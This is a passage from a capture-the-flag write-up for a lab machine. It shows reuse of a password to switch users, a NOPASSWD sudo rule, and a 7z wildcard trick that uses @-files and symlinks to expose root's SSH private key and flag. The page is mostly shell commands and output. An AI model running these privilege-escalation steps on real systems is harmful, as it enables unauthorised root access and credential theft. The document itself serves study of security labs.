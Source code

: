 ```bash

```
{: .nolineno}


I used this above mentioned password on another user of this system as xander and I got its shell access with that 🔻

```bash
dash@usage:~$ su xander
su xander
Password: 3nc0d3d_pa$$w0rd

xander@usage:/home/dash$ whoami
whoami
xander
xander@usage:/home/dash$ id
id
uid=1001(xander) gid=1001(xander) groups=1001(xander)
xander@usage:/home/dash$ cd ~
cd ~
xander@usage:~$ ls -al
ls -al
total 24
drwxr-x--- 4 xander xander 4096 Apr  2 20:25 .
drwxr-xr-x 4 root   root   4096 Aug 16  2023 ..
lrwxrwxrwx 1 xander xander    9 Apr  2 20:25 .bash_history -> /dev/null
-rw-r--r-- 1 xander xander 3771 Jan  6  2022 .bashrc
drwx------ 3 xander xander 4096 Aug 20  2023 .config
-rw-r--r-- 1 xander xander  807 Jan  6  2022 .profile
drwx------ 2 xander xander 4096 Apr  8 13:17 .ssh
xander@usage:~$ sudo -l
sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
xander@usage:~$
```
{: .nolineno}

![Image](Pasted%20image%2020240812222925.png)

I used this <mark style="background: #FFB86CA6;">wildcard space trick</mark> method from [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z) 🔻

I followed the path and accessed the private key of root user like this 🔻

```bash
xander@usage:/var/www/html$ touch @root.txt
touch @root.txt
xander@usage:/var/www/html$ touch @id_rsa
touch @id_rsa
xander@usage:/var/www/html$ ls -al
ls -al
total 16
drwxrwxrwx  4 root   xander 4096 Aug 12 17:07 .
drwxr-xr-x  3 root   root   4096 Apr  2 21:15 ..
-rw-rw-r--  1 xander xander    0 Aug 12 17:07 @id_rsa
lrwxrwxrwx  1 xander xander   17 Aug 12 17:03 id_rsa -> /root/.ssh/id_rsa
drwxrwxr-x 13 dash   dash   4096 Apr  2 21:15 project_admin
-rw-rw-r--  1 xander xander    0 Aug 12 17:07 @root.txt
lrwxrwxrwx  1 xander xander   14 Aug 12 17:00 root.txt -> /root/root.txt
```